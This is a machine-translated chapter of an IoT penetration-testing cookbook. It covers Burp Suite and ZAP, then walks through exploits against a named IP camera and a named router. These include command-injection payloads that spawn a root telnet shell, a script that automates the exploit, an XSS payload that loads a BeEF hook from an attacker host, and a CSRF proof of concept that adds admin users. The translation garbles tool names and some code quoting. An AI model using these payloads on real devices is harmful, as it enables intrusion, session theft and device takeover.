# 四、嵌入式 Web 应用的利用

在本章中，我们将介绍以下配方：

*   web 应用安全测试入门
*   使用打嗝套件
*   使用 OWASP-ZAP
*   利用命令注入
*   利用 XSS
*   利用 CSRF

# 介绍

Web 应用和 Web 服务用于执行远程访问功能以及管理设备。IoT 设备的 web 应用具有强大的功能，可以对攻击者进行远程可执行控制。某些产品，如连接的车辆或具有远程可执行漏洞的智能门锁，可能会对其用户造成伤害和人身安全风险。在测试上述物联网类别中的产品时，首先要定位对用户具有最高风险和影响的漏洞。在本章中，我们将展示如何选择 web 应用测试方法，设置 web 测试工具包，以及讨论如何发现和利用一些最常见的嵌入式 web 应用漏洞。

# web 应用安全测试入门

许多现代 web 都运行在数百个 web、应用和数据库服务器作为后端系统的应用上。web 已经从静态 HTML 页面发展到需要更多计算资源的复杂异步应用。尽管网络已经发生了变化，但一些最常见的安全问题并没有改变。20 世纪 90 年代首次发现的漏洞仍然是相关的，并且正在被积极利用。在物联网产品中，一些常见漏洞通常是命令注入、**跨站点脚本**（**XSS**）、目录遍历、身份验证绕过、会话劫持、**XML 外部实体**（**XXE**）、**跨站点请求伪造**（【T10 CSRF】））和其他业务逻辑缺陷。在此配方中，我们将建立一种 web 应用测试方法，用于发现和利用 IoT web 应用和 web 服务漏洞。

# 怎么做。。。

要开始评估 web 应用，重要的是建立一种方法，有时甚至是在掌握了窍门之后建立一个检查表。了解您的方法和上下文应用风险是成功降低安全控制的关键。在我们建立了与目标应用相关的方法之后，我们将开始配置我们的 web 测试环境和工具包，以开始 web 应用安全测试。

# Web 渗透测试方法

除了 web 笔测试方法之外，还有许多笔测试方法。方法论本身没有对错之分；然而，确定测试应用的方法对于成功发现软件缺陷至关重要。最常用的方法是**渗透测试执行标准**（**PTES**）和 OWASP 的 Web 应用渗透测试方法。**开放式 Web 应用安全项目**（**OWASP**）是一家提供工具和文档的非营利慈善组织，在国际上倡导软件安全。如果您曾经测试过应用或必须修复软件漏洞，您可能已经熟悉 OWASP。如果您曾经执行过渗透测试，您可能也遇到过 PTE。PTE 旨在为渗透测试提供基线。PTES 将渗透测试定义为七个阶段，包括以下几个阶段：

1.  参与前互动。
2.  情报收集。
3.  威胁建模。

4.  脆弱性分析。
5.  剥削
6.  剥削后。
7.  报告。

虽然 PTE 与信息安全测试的所有筒仓相关，但它在面向网络的渗透测试中使用和应用最多。有一些关于 web 安全性的小部分，但目前还不足以成功执行评估。PTES 确实为方法的每个阶段提供了详细的实践示例，还包括工具使用示例。另一方面，OWASP 的 Web 应用渗透测试方法纯粹面向 Web 应用渗透测试。OWASP 的 Web 应用渗透测试方法包括以下 12 个类别：

*   导言和目标
*   信息收集
*   配置和部署管理测试
*   身份管理测试
*   认证测试
*   授权测试
*   会话管理测试
*   输入验证测试
*   错误处理
*   密码学
*   业务逻辑测试
*   客户端测试

与 PTE 类似，OWASP 的测试方法为每个阶段提供了大量示例，包括屏幕截图、工具参考和使用。在某些领域经验不足时，提供与测试目标应用相关的示例是很有帮助的。OWASP 测试方法的一大优点是特定测试方法的上下文，以尝试用例和测试透视图，如黑盒或灰盒。OWASP 被认为是应用安全指导和测试的实际组织。如有疑问，请参阅 OWASP 测试指南或其各种备忘单系列，以获得帮助。

# 选择您的测试工具

有许多工具可用于测试 web 应用。组装用于评估 web 应用的工具箱的第一步是选择浏览器并自定义其测试配置。Firefox 是一种常见的测试浏览器，因为它有许多可用的测试插件。也可以使用其他浏览器，某些应用可能需要其他浏览器，例如使用 ActiveX 或 Silverlight 的应用，这些应用需要 Internet Explorer 浏览器才能正常工作。一些附加组件使测试变得更加简单和高效。常用的附加组件如下所示：

*   **FoxyProxy**：用于管理 Chrome 和 Firefox 浏览器代理设置的工具。有时您可能会同时运行多个代理工具，并且可能需要在这两个工具之间切换。FoxyProxy 可帮助更改代理设置，而无需单击许多浏览器设置菜单。FoxyProxy 可在[下载 https://addons.mozilla.org/en-us/firefox/addon/foxyproxy-standard/](https://addons.mozilla.org/en-us/firefox/addon/foxyproxy-standard/) 。
*   **Cookie Manager+**：Cookie Manager 用于编辑 Cookie 值并查看其属性。Firefox 和 Chrome 有许多 cookie manager 插件。Firefox 的常见 cookie 管理器是 cookie manager+。Cookie Manager+可在以下位置下载：https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/.
*   **Wappalyzer**：为了更好地理解目标应用，了解正在使用的组件是有帮助的。Wappalyzer 是一个附加组件，它帮助发现所使用的技术，包括 web 服务器、框架和 JavaScript 库。Wappalyzer 可在以下网址下载用于 Firefox 和 Chromehttps://wappalyzer.com/download.

选择浏览器后，必须配置代理设置，以便在 web 应用代理工具中查看应用的请求和响应。在以下步骤中，我们将介绍如何配置代理设置和 web 应用代理工具。

# 使用打嗝套件

Burp Suite 是用于评估 web 应用的最流行的 web 代理工具之一。Burp 是一个基于 Java 的跨平台工具。使用 Burp 套件，HTTP 请求和响应可以是中间人，以便篡改和监视应用行为。此外，应用可以被加密、主动扫描漏洞、被动扫描和模糊化。

# 准备

Burp 套件预先安装在为烹饪书准备的虚拟机中；但也可在[下载 https://portswigger.net/burp/](https://portswigger.net/burp/) 。

Burp 有两个版本：免费版和专业版。鉴于 Burp 的功能集，专业版价格适中（349.00 美元）。还有一个为期两周的专业版试用版。免费版允许代理 HTTP 请求和响应，以及下载 BApp 存储中提供的一些扩展插件。专业版允许使用更高级的功能和专业扩展插件。

# 怎么做。。。

我们将介绍 Burp 套件的基本用法，以开始测试嵌入式 web 应用。以下示例将使用 Burp Suite 专业版；但是，同样的设置步骤也可以应用于免费版：

1.  使用端口`8080`将 Burp 代理侦听器设置设置为`127.0.0.1`，如以下屏幕截图所示：



2.  使用 FoxyProxy 将浏览器代理设置设置为我们在上一步中设置的 Burp Suite 侦听器地址：


3.  选择已配置的代理，将所有流量路由到我们的 Burp 代理侦听器：



4.  接下来，我们需要导航到`http://burp/cert`下载并安装 Burp 的 CA 证书，将证书保存在文件夹中，然后将证书导入浏览器的证书管理器。导入 Burp 的 CA 证书允许代理 HTTPS 连接，这在将来可能会派上用场：


5.  在 Firefox 中导航至`about:preferences#advanced`并选择证书，然后选择授权：


6.  点击导入。。。按钮并选择本地保存的 Burp Suite 证书：


现在我们可以查看 HTTP/HTTPS 请求和响应。

7.  一旦我们为浏览器和 Burp 套件配置了基本代理设置，就可以导航到目标 web 应用。通过右键单击目标应用的地址并选择 Add to scope（添加到范围），将其添加到范围，如以下屏幕截图所示：


8.  选择范围后，右键单击请求并选择“执行活动扫描”，即可通过 Burp 的扫描引擎扫描请求：



9.  通过导航到扫描队列查看扫描结果：



10.  有时，我们可能希望使用中继器重放请求，以观察应用响应或调整有效负载。这可以通过右键单击目标请求并将其发送到中继器来完成。以下屏幕截图显示了使用有效负载调整的`alias`参数：



11.  在调整有效负载的问题上，我们可能需要编码或解码某些字符，以确保使用 Burp Suite 的解码器功能执行有效负载。以下屏幕截图显示 URL 编码的解码值（顶部）（底部）：


12.  使用 Burp Suite 的入侵者可以实现一种更为手动的模糊参数和特定目标有效载荷的方法。首先，需要指定一个目标参数。在这种情况下，我们使用`alias`参数作为目标：


13.  接下来，选择要使用的攻击有效载荷（本例中为 Fuzzing-XSS），然后单击开始攻击：



将弹出一个单独的窗口，可在其中查看攻击结果：



# 它是如何工作的。。。

在我们的设置步骤中，我们配置了 Burp 代理设置和浏览器设置，并学习了将用于测试的 Burp 套件的基础知识。我们使用 FoxyProxy 配置了浏览器代理设置，安装了 Burp 的 CA 证书，扫描了一个请求，并演示了如何使用其他 Burp 工具，这些工具可能有助于更多的目标攻击，如中继器、解码器和入侵者。

有了这些知识，我们现在可以开始使用 Burp Suite 访问嵌入式 web 应用，查找目标设备上的漏洞。

# 还有更多。。。

Burp Suite 背后有一个强大的社区。当发现新的攻击技术时，社区已经创建了许多附加扩展。打嗝套件本身也是如此。PortSwigger 通过不断更新打嗝，在保持领先方面做得很好。看看各种发行说明，你可能会学到一两件事（[http://releases.portswigger.net/](http://releases.portswigger.net/) ）。

# 有用的入侵者有效载荷

使用入侵者时，最好为模糊参数设置一组目标有效载荷。SecList 项目有许多单词列表和模糊有效载荷，用于更有针对性的攻击。该项目定期更新，社区捐款协助测试。可通过 URL[找到 SecList 存储库 https://github.com/danielmiessler/SecLists/](https://github.com/danielmiessler/SecLists/) 。

# 另见

*   如果您发现自己需要为定制目的创建宏或附加组件，请查看位于[的 Burp 的可扩展性 APIhttps://portswigger.net/burp/extender/](https://portswigger.net/burp/extender/) 。

# 使用 OWASP-ZAP

OWASP**Zed 攻击代理**（**ZAP**是一款免费的跨平台 web 代理测试工具，用于查找 web 应用中的漏洞。在 web 应用代理测试工具领域，ZAP 是 Burp Suite 的亚军，当您的商业产品许可预算可能较低时，ZAP 无疑是您的首选。ZAP 设计用于具有广泛安全经验的人员，因此对于利用人员以及刚刚接触渗透测试的功能测试人员来说都是理想的选择。有了 ZAP 的 API，扫描可以自动化，并在利用人员的工作流程中用于在生产之前扫描构建。ZAP 有许多不同的有用的附加组件，具有强大的扫描引擎，其中包括其引擎中其他经验证的测试工具，如 Dirbuster 和 SQLmap。此外，ZAP 还有一种图形脚本语言 ZEST，它可以记录和重放类似于宏类型的请求。本食谱将介绍 web 应用安全测试的基本 ZAP 功能。

# 准备

Burp 套件预先安装在为烹饪书准备的虚拟机中；但也可以通过[下载 https://github.com/zaproxy/zaproxy/wiki/Downloads](https://github.com/zaproxy/zaproxy/wiki/Downloads) 。

ZAP 下载页面包含额外的 Docker 图像，以及利用官方版本中未引入的新功能的 ZAP 每周版本。每周发布的版本非常稳定，如果您想要更多的可扩展性，我建议您试一试。

# 怎么做。。。

以下步骤将介绍 ZAP 的设置和基本用法：

1.  通过单击“工具”，然后单击“选项”，设置 ZAP 代理侦听器设置。输入 ZAP 要监听的 IP 和端口信息，如以下屏幕截图所示：



2.  通过 Dynamic SSL certificate（动态 SSL 证书）选项生成并安装 ZAP 的 CA 证书，并在浏览器中安装该证书，类似于您在 Burp Suite 配方中所做的操作：



3.  将证书保存在已知目录中：



4.  有必要的附加安装，将有助于主动和被动网络笔测试。这些附加组件包括高级 SQLInjection 扫描程序、主动扫描程序规则（alpha）、DOM XSS 主动扫描程序规则、被动扫描程序规则（alpha）和使用 Wappalyzer 的技术检测。ZAP 的附加组件具有成熟度，但使用 alpha 级别的附加组件并没有什么坏处。以下屏幕截图说明了必要的附加组件：


5.  一旦安装了所需的附加组件，现在就可以通过分析和扫描策略管理器选项配置扫描策略。这些策略也可以导出和导入。以下屏幕截图显示了用于 XSS 的扫描策略示例：



ZAP 的扫描策略包含阈值和强度。阈值与警报可信度以及 ZAP 报告潜在漏洞的可能性有关。强度与 ZAP 将执行的攻击量有关。该信息可通过位于工具本身或在线[的 ZAP 用户指南找到 https://github.com/zaproxy/zap-core-help/wiki](https://github.com/zaproxy/zap-core-help/wiki) 。

6.  配置了扫描配置后，我们需要通过右键单击目标，将目标站点添加到上下文中，如下面的屏幕截图所示。这类似于 Burp 的“添加到范围”：



7.  目标现在包含在扫描上下文中：



8.  右键单击目标请求，选择扫描策略，然后开始扫描，即可扫描请求，如以下屏幕截图所示：


选择 XSS 扫描策略，现在扫描将从 ZAP 中“活动扫描”选项卡中显示的扫描输出开始。


9.  要获得更具针对性的主动扫描方法，请利用 ZAP 的模糊功能，这类似于 Burp 的入侵者。要进行模糊，请右键单击请求并选择模糊位置和有效载荷，如以下屏幕截图所示：



10.  解码和编码字符是代码执行的关键。ZAP 的编码器/解码器可通过工具菜单访问，其工作原理与 Burps 解码器类似，如以下屏幕截图所示：



# 还有更多。。。

ZAP 是非常可定制和可扩展的；我们上一个食谱只介绍了 ZAP 的基本用法，以帮助进行 web 应用安全测试。要了解有关使用和定制 ZAP 的更多信息，请访问 ZAP 的博客以及他们的 wiki 链接[https://github.com/zaproxy/zaproxy/wiki](https://github.com/zaproxy/zaproxy/wiki) 和[https://zaproxy.blogspot.com/](https://zaproxy.blogspot.com/) 。

此外，如果您想通过 ZAP 或 Burp 套件磨练您的 web 应用测试技能，请查看位于[的 OWASP 易受攻击的 web 应用目录项目 https://www.owasp.org/index.php/OWASP_Vulnerable_Web_Applications_Directory_Project](https://www.owasp.org/index.php/OWASP_Vulnerable_Web_Applications_Directory_Project) 。

# 利用命令注入

在嵌入式系统中，操作系统命令注入是一个漏洞，通常通过利用固件构建留下的 web 界面或调试页面来执行任意操作系统命令。用户通过 web 界面在 web 服务参数内提供操作系统命令，以便执行 OS 命令。动态且未正确清理的参数会受到此漏洞的攻击。借助执行操作系统命令的能力，攻击者可以上载恶意固件、更改配置设置、获得对设备的持久访问、获取密码、攻击网络中的其他设备，甚至将合法用户从设备中锁定。在此配方中，我们将演示如何利用命令注入来获得对设备的 shell 访问。

# 准备

对于此配方，我们将使用 tcpdump、Burp 套件和易受攻击的 IHOMECAM ICAM-608 IP 摄像头。Tcpdump 包含在大多数*Nix 操作系统中，但 Wireshark 也可用于观察数据包。

# 怎么做。。。

在嵌入式 web 应用中查找命令注入页面的过程相当简单。我们要检查的应用中的第一个位置是使用系统命令（如`ping`或`traceroute`）的诊断页面，以及守护进程的配置设置页面（如 SMB、PPTP 或 FTP）。如果我们已经获得固件或获得了对目标设备控制台的访问权，则最好静态分析设备执行的易受攻击的脚本和功能，并验证通过动态分析发现的潜在发现：

1.  让我们看一下目标 IP 摄像头的配置菜单设置，以确定潜在的易受攻击页面：



2.  没有很多页面可供选择，但我们确实看到了邮件服务和 FTP 服务设置页面。这些页面可以将系统命令输入操作系统以执行。让我们首先检查 FTP 服务设置页面，并尝试通过 Burp 套件使用系统命令操纵参数值：



3.  在尝试发送`pwd`参数中的有效负载`$(ping%20192.168.1.184)`时，应用中似乎出现了字符剥离，如以下屏幕截图所示：


4.  使用诸如`ping`之类的基本命令将有效负载发送到主机，这表明我们的命令已成功执行。为了观察 ping 是否已执行，使用以下命令设置`tcpdump`监听来自目标 IP 摄像机的 ICMP 数据包：

```
$ tcpdump host 192.168.1.177 and icmp
```

5.  使用 Burp Suite 的中继器，我们可以更改值并绕过 IP 摄像头正在执行的客户端检查。使用以下请求，我们可以看到应用接受我们的更改，需要根据 HTTP 响应刷新`ftp.htm`页面：

```
RAW HTTP Request  
GET 
/set_ftp.cgi?next_url=ftp.htm&loginuse=admin&loginpas=admin&svr=192.168.1.1&port=21&user=ftp&pwd=$(ping%20192.168.1.184)&dir=/&mode=0&upload_interval=0 HTTP/1.1 

RAW HTTP Response 
HTTP/1.1 200 OK 
Server: GoAhead-Webs 
Content-type: text/html 
Cache-Control:no-cache 
Content-length: 194 
Connection: close 

<html> 

<head> 

<title></title> 

<meta http-equ"v="Cache-Cont"ol" conte"t="no-cache, must-reva lid"te"><meta http-equ"v="refr"sh" conte"t="0; url=/ftp."tm" /> 

</head> 

<body> 

</body> 

<html> 
```

6.  刷新到`ftp.htm`页面后，我们观察到 ICMP 数据包被发送到我们的主机：

```
$ tcpdump host 192.168.1.177 and icmp

15:27:08.400966 IP 192.168.1.177 > 192.168.1.184: ICMP echo request, id 42832, seq 0, length 64
15:27:08.401013 IP 192.168.1.184 > 192.168.1.177: ICMP echo reply, id 42832, seq 0, length 64
15:27:09.404737 IP 192.168.1.177 > 192.168.1.184: ICMP echo request, id 42832, seq 1, length 64
15:27:09.404781 IP 192.168.1.184 > 192.168.1.177: ICMP echo reply, id 42832, seq 1, length 64
15:27:10.666983 IP 192.168.1.177 > 192.168.1.184: ICMP echo request, id 42832, seq 2, length 64
15:27:10.667031 IP 192.168.1.184 > 192.168.1.177: ICMP echo reply, id 42832, seq 2, length 64  
```

7.  现在我们知道`pwd`参数容易受到命令注入的影响，我们的下一个目标是获得对目标设备的 shell 访问。我们知道 IP 摄像头包含基于 FTP 使用情况的遗留守护程序，而且很可能也使用了 Telnet。接下来，我们将调用 Telnet 在端口`25`上启动，并使用以下有效负载将我们放入一个没有用户名或密码的 shell 中：

```
/set_ftp.cgi?next_url=ftp.htm&loginuse=admin&loginpas=admin&svr=192.168.1.1&port=21&user=ftp&pwd=$(telnetd -p25 -l/bin/sh)&dir=/&mode=PORT&upload_interva'=0'  
```

8.  我们也知道应用需要刷新`ftp.htm`页面才能保存设置，但是，查看页面的源代码时，它会调用一个名为`ftptest.cgi`的 CGI 来执行我们的负载。以下是从`ftp.htm`页面执行有效负载的代码片段：

```
function ftp_test() {              
   var url;              
   url'= 'ftptest.cgi?next_url=test_ftp.'tm';              
   url '= '&loginu'e=' + top.cookieuser'+ '&loginp's=' + encodeURIComponent(top.cookiepass);              
   window.open(ur"" """ "")         } 
```

9.  接下来，我们可以通过以下`GET`请求直接调用`ftptest.cgi`保存我们的设置：

```
/ftptest.cgi?next_url=test_ftp.htm&loginuse=admin&loginpas=ad'in'  
```

10.  Telnet 现在正在端口`25`上运行，并为我们提供了一个根 shell：

```
$ telnet 192.168.1.177 25
Trying 192.168.1.177...
Connected to 192.168.1.177.
Escape character 's '^]'.

/ # id
uid=0(root) gid=0
/ # mount
rootfs on / type rootfs (rw)
/dev/root on / type squashfs (ro,relatime)
/proc on /proc type proc (rw,relatime)
sysfs on /sys type sysfs (rw,relatime)
tmpfs on /dev type tmpfs (rw,relatime,size=2048k)
tmpfs on /tmp type tmpfs (rw,relatime,size=5120k)
devpts on /dev/pts type devpts (rw,relatime,mode=600,ptmxmode=000)
/dev/mtdblock3 on /system type jffs2 (rw,relatime)
/ # uname -a
Linux apk-link 3.10.14 #5 PREEMPT Thu Sep 22 09:11:41 CST 2016 mips GNU/Linux

```

11.  在授予 shell 后，可以在设备的 LAN 上使用多种技术进行后期利用。本配方中不包括利用后技术；但是，我们可以使用以下 bash 脚本轻松编写命令注入有效负载的脚本，以确保访问：

```
#!/bin/sh  
wget -q'- 'http://192.168.1.177/set_ftp.cgi?next_url=ftp.htm&loginuse=admin&loginpas=admin&svr=192.168.1.1&port=21&user=ftp&pwd=$(telnetd -p25 -l/bin/sh)&dir=/&mode=PORT&upload_interval=0'  
wget -qO- 'http://192.168.1.177/ftptest.cgi?next_url=test_ftp.htm&loginuse=admin&loginpas=admin' 
telnet 192.168.1.177 25  
```

在这个配方中，我们在 IHOMECAM ICAM-608 IP 摄像头上发现并利用了命令注入。我们能够获得 shell 访问权限，并创建一个脚本来自动利用命令注入。

# 另见

*   要了解有关查找和防止命令注入的更多信息，请参阅 OWASP 的命令注入 wiki 页面（[https://www.owasp.org/index.php/Command_Injection](https://www.owasp.org/index.php/Command_Injection) 以及 OWASP 的嵌入式应用安全项目（[https://www.owasp.org/index.php/OWASP_Embedded_Application_Security](https://www.owasp.org/index.php/OWASP_Embedded_Application_Security) ）。

# 利用 XSS

XSS 是一种攻击类型，它在受信任网站的上下文中从不受信任的源执行和注入任意 JavaScript。当攻击者在 web 应用中发现一个易受攻击的参数时，就会发生 XSS 攻击，该参数在向用户呈现内容之前执行动态内容而不验证或输出编码字符。XSS 攻击利用浏览器的传输攻击有效载荷，因为浏览器相信代码是可信的。XSS 漏洞有三种类型：反射（最常见）、存储和基于 DOM。当参数数据被复制并回显到应用的响应中而不清理其内容时，就会出现反射性 XSS 漏洞。当应用允许将参数输入数据存储在应用的数据库中供以后使用时，就会出现存储的 XSS 漏洞。**文档对象模型**（**DOM**）当来自参数的数据通过 JavaScript 函数馈入 DOM 元素时，会出现 XSS 漏洞。

成功利用 XSS 的攻击者将能够执行以下操作：

*   关键日志数据
*   攻击受害者的**局域网**（**局域网**）
*   代理通过名为**浏览器中人**（**MITB**的受害者的所有网络流量
*   窃取或修改用于会话劫持的应用 cookie
*   修改受害者应用的外观
*   绕过 CSRF 安全控制

为了成功地攻击受害者，攻击者需要执行一种社会工程技术，让用户执行恶意请求。XSS 攻击的常见社会工程方法如下：

*   使用恶意 JavaScript 创建假网站并链接到其页面
*   发送嵌入恶意 web URL 的电子邮件
*   使用 URL 缩短器屏蔽 URL

在每种情况下，初始 URL 都将链接到受信任的受害者的站点，并在用户不知情的情况下异步执行恶意 JavaScript 代码。在此配方中，我们将逐步发现并利用一个反射性 XSS 漏洞，该漏洞将完全控制受害者的浏览器。

# 准备

对于此配方，我们将使用 OWASP ZAP、**浏览器利用框架**（**BeEF**）和易受攻击的 RT-N12 ASUS 路由器。牛肉可通过[安装 http://beefproject.com](http://beefproject.com) 或在默认安装 BeEF 的 Kali Linux 虚拟机中使用。

# 怎么做。。。

当试图查找反射 XSS 漏洞时，我们首先观察参数输入行为，以查看数据是否反射回用户。Web 代理（如 OWASP ZAP 和 Burp Suite）可以通过其扫描引擎帮助实现发现过程的自动化：

1.  浏览应用以查找潜在的反射值。通常需要探测的位置是诊断页面、故障排除页面或配置页面，这些页面会更改嵌入式设备上运行的服务或守护进程。以下屏幕截图显示了发现 web 漏洞的潜在起点：



2.  代理 ZAP 中的 HTTP 请求并更改此页面上的配置。您应该看到如下图所示的 POST body 参数：



3.  查看`start_apply.htm`源代码可以发现一些可能的动态变量，这些变量可以通过连接 JavaScript 代码进行操作。这些变量似乎是作为请求的`POST`主体发送的参数，但也可以通过`GET`请求发送。以下是`start_apply.htm`中`next_page`可能的可注入参数值片段：

```
setTimeout("top_delay_redirect('"+next_page+"');", restart_time*1000);
<snip>
setTimeout("parent.parent.location.href='"+next_page+"';", (restart_time+2)*1000);
<snip>
else if(next_page.length > 0){
setTimeout("delay_redirect('"+next_page+"');", restart_time*1000);

```

使用带有 XSS 有效负载的模糊参数，我们可以手动注入 XSS 有效负载并观察响应，但我们也可以使用已知的 XSS 有效负载和单词列表（如 seclist），这将有助于加快发现过程。

4.  根据 ZAP 中的模糊结果，我们在 HTTP 响应中看到了一些反映的参数，如以下屏幕截图所示：



5.  我们可以看到，`next_page`参数反映了我们精确的模糊输入值（`<script>(document.head.childNodes[3].text)</script>`），如以下 HTTP 响应片段所示：



6.  让我们在浏览器中手动输入此反射参数以观察其响应：


看起来我们正在根据响应破坏一些 JavaScript 代码。这可能与编码或有效负载的可能长度有关。我们需要调整编码字符并检查 JavaScript 代码，以确保代码启动或结束可能正在使用的函数。

7.  使用基本警报 XSS 有效载荷进行发现，请记住在`start_apply.html`源中，参数值的形式如下：

```
'"+next_page+"'
```

8.  让我们使用 ZAPs 编码器/解码器工具调整基本 XSS 有效负载，如下所示：


9.  通过 web 界面将 URL 编码的值插入到 vulnerable 参数中，现在我们的警报代码成功执行。在深入研究更复杂的 XSS 有效负载之前，最好在警报框中尝试一个整数，以查看代码是否首先执行：



10.  现在让我们更进一步，使用以下有效负载转储警报框中的任何 cookie：

```
'%2balert(document.cookie)%2b'
```

11.  现在，我们可以使用基本负载`alert(document.cookie)`在浏览器中看到呈现的 cookie 值`IoTCookbook=1234567890`：



令人惊叹的现在我们知道，我们可以在这一点上完成一些基本的 XSS 有效负载。幸运的是，我们还没有达到任何字符限制或任何类型的过滤。让我们看看我们是否可以造成更多的伤害，并在脆弱参数中插入一个牛肉钩有效载荷。毕竟，警报箱会带来什么风险？

# 介绍如何使用 BeEF XSS 有效负载

BeEF 是一种通过易受攻击的应用参数和社会工程技术，利用受害者环境中的 web 浏览器和客户端攻击向量的工具。当受害者执行其有效负载时，BeEF 将钩住一个或多个 web 浏览器，其中有许多命令模块可供进一步利用。下一节将对我们发现的 XSS 漏洞进行扩展，让它执行一个牛肉钩，然后讨论一些基本用途。

BeEF 功能强大，展示了 XSS 的强大影响力：

1.  现在，我们已经演示了基本 XSS 有效负载是如何执行的，我们将对其进行升级，并通过以下`GET`请求尝试使用与前两种格式类似的 BeEF 有效负载：

```
http://192.168.1.1/start_apply.htm?next_page= '+<script src=//172.16.100.139:3000/hook.js></script>+' 
```

2.  使用此`GET`请求，我们可以看到浏览器响应一个断页，如下图所示：



3.  同样，我们正在破坏一些 JavaScript 代码，阻止浏览器执行外部托管在 BeEF 服务器上的 JavaScript 代码。我们可能需要终止预期的 JavaScript 代码并启动我们自己的`<script>`标记来请求外部 JavaScript 代码。我们可以尝试添加带有打开和关闭脚本标记括号的参数，添加引号，然后尝试使用以下`GET`请求调用我们的 BeEF hook 负载：

```
http://192.168.1.1/start_apply.htm?next_page=param<script></script>+"<script src=http://172.16.100.139:3000/hook.js></script>
```

4.  当我们发送`GET`请求并查看浏览器响应时，它似乎输出了相同的损坏 JavaScript；但是，如果我们查看 ZAP，我们可以看到浏览器向我们的 BeEF 服务器发送请求：



5.  以下是 ZAP 历史记录选项卡中显示的牛肉钩请求：


6.  通过 BeEF 服务器，我们成功地将浏览器与有效负载挂钩，如以下屏幕截图所示：


# 钩住受害者时牛肉的基本用法

以下是在钩住受害者时 BeFF 的基本用法：

1.  一旦受害者上钩，BeEF 会快速列举受害者计算机上运行的信息。

以下屏幕截图说明了 BeEF 捕获的内容：


2.  除了主机详细信息外，BeEF 还使用了许多用于受害者的攻击模块，如以下屏幕截图所示：


3.  网络类别中的一个模块可以扫描受害者的端口，以获得攻击后帮助：


# 通过受害者浏览器代理流量

我最喜欢的 BeEF 功能之一是能够使用受害者作为代理代表用户发送伪造请求：

1.  只需右键单击钩住的受害者以用作代理，导航到 Rider 选项卡，并使用 Forge Request 选项即可，如以下屏幕截图所示：



2.  通过受害者的浏览器复制已知的`HTTP`请求进行伪造，例如创建或更改管理员用户的密码，如以下屏幕截图所示：


3.  在“历史记录”选项卡中查看伪造的响应：


4.  双击伪造请求时，将打开另一个选项卡，显示伪造请求的路径，并显示`HTTP`响应，如下图所示：



在此配方中，我们演示了如何发现易受攻击的 XSS 参数，回顾了编码注意事项，剖析了 JavaScript 代码，讨论了基本 XSS 有效负载的使用，并利用牛肉钩利用了跨站点脚本漏洞。当牛肉钩住一个受害者时，有许多可能和利用技术可供使用。

# 还有更多。。。

有关 BeEF 模块和高级功能的详细信息，请访问 BeEF 的 GitHub wiki 页面[https://github.com/beefproject/beef/wiki](https://github.com/beefproject/beef/wiki) 。

# 另见

*   在尝试利用基本警报框之外的 XSS 时，有许多警告。通常，由于字符限制，需要调整编码以避开过滤器或最小化有效负载。要获得规避过滤器和 XSS 的帮助，请查看通过[找到的 OWASP 的 XSS wiki 页面 https://www.owasp.org/index.php/Cross-site_Scripting_（XSS）](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))。XSS wiki 页面还链接到几个 XSS 测试指导文档，例如规避过滤器。

# 利用 CSRF

CSRF 是一种攻击，诱使受害者以受害者的身份和权限提交恶意请求，以代表受害者执行不需要的功能。对于大多数应用，浏览器将自动包含任何相关的会话信息，如用户的会话 cookie、令牌、IP 地址，有时还包括 Windows 域凭据 NTLM 哈希。如果受害者用户当前已通过站点身份验证，则站点将无法区分受害者发送的伪造请求和受害者发送的合法请求。

CSRF 攻击的目标是导致服务器状态更改的应用功能，例如更改受害者的电子邮件地址、密码或各种其他应用配置设置。如果攻击成功，对手不会收到响应，只有受害者收到响应。因此，CSRF 攻击以自动方式执行的改变状态的配置请求为目标。由于保持反 CSRF 令牌状态的硬件计算复杂性，嵌入式物联网设备易受 CSRF 攻击。尽管有一些预防性的设计模式不需要服务器端状态，而是应用验证 HTTP 引用器和源标题，但这些都不是有效的解决方案。

CSRF 攻击已在许多针对物联网设备和 SOHO 路由器的恶意软件中使用，以将受害者的流量重新路由到由攻击者控制的 DNS 服务器，以控制互联网流量和 DDoS 攻击。其中一些恶意软件链被称为 SOHO Pharming（[https://www.team-cymru.com/ReadingRoom/Whitepapers/2013/TeamCymruSOHOPharming.pdf](https://www.team-cymru.com/ReadingRoom/Whitepapers/2013/TeamCymruSOHOPharming.pdf) 和 Dnshanger（[https://www.proofpoint.com/us/threat-insight/post/home-routers-under-attack-malvertising-windows-android-devices](https://www.proofpoint.com/us/threat-insight/post/home-routers-under-attack-malvertising-windows-android-devices) ）。在此配方中，我们将演示如何在目标设备上利用 CSRF。

# 准备

为了利用 CSRF，我们将使用 Burp 套件和易受攻击的 IHOMECAM ICAM-608 IP 摄像头。

# 怎么做。。。

发现应用是否易受 CSRF 攻击的第一步是观察更改应用状态的请求参数和 HTML 表单值。如果 HTML 表单中没有随每个参数一起发送的随机令牌或硬编码令牌，则应用很可能容易受到 CSRF 的攻击。我们希望了解将有利于我们作为攻击者的敏感配置的变化，或者设备的一种持久性形式，例如添加用户：

1.  让我们看看目标 IP 摄像头的用户设置配置页面及其源代码：


2.  用户设置页面的源看起来不包含反 CSRF 令牌，并且在没有任何验证的情况下将参数盲目输入页面的 URL：



我们现在可以创建一个**概念验证**（**PoC**）CSRF HTML 页面，代表受害者创建三个用户。

3.  首先，我们需要右键单击易受攻击的 HTTP 请求并选择 Generate CSRF PoC:


4.  Burp Suite 创建了一个 PoC HTML 页面，我们可以根据需要进行武器化和定制。我们的下一步是更改管理员用户设置，并通过硬编码输入值添加两个新用户。在下面的截图中，我们添加了`IoTCookbookUserAdmin`、`IoTCookbookUser1`和`IoTCookbookUser2`：



5.  选择“在浏览器中测试”，将弹出以下框：



6.  将链接复制到浏览器中：


7.  在浏览器中运行链接后，观察发送到 Burp Suite 的代理 HTTP 历史记录的请求，该历史记录包含我们在 PoC HTML 页面中使用的硬编码输入值，将用户添加到 IP 摄像头：



7.  刷新 IP 摄像头的用户设置页面以查看所做的更改：


发送 CSRF PoC 页面受害者时，可以使用基于上述恶意软件的类似战术和技术。管理员和用户帐户将以自动方式创建，允许攻击者代表受害者用户进行未经授权的更改。

# 另见

*   有关审查 CSRF 漏洞代码以及查找和预防 CSRF 的更多指导，请参阅 OWASP 的 CSRF wiki 页面[https://www.owasp.org/index.php/Cross-Site_Request_Forgery_（CSRF）](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF))。